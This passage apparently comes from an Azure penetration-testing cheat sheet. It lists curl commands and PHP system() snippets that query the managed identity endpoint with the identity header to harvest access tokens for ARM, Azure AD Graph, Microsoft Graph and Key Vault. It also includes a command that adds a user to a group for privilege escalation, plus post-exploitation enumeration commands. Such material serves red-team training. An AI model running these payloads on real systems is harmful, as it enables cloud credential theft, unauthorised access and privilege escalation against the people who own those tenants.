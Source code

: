 - Keyvault
```
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

### PHP
- ARM
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

- Azure AD Graph
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

- Microsoft Graph
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

- Keyvault
```
<?php
  system ('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

#### Add a user to a group
- Required aad-graph token
```
Add-AzureADGroupMember -ObjectId <GROUP ID> -RefObjectId <USER ID> -Verbose
```

## Exploitation Enumeration
### When on a new machine
### Get machine info
```
systeminfo
```

#### Check if Azure or Domain joined
```
dsregcmd /status
```
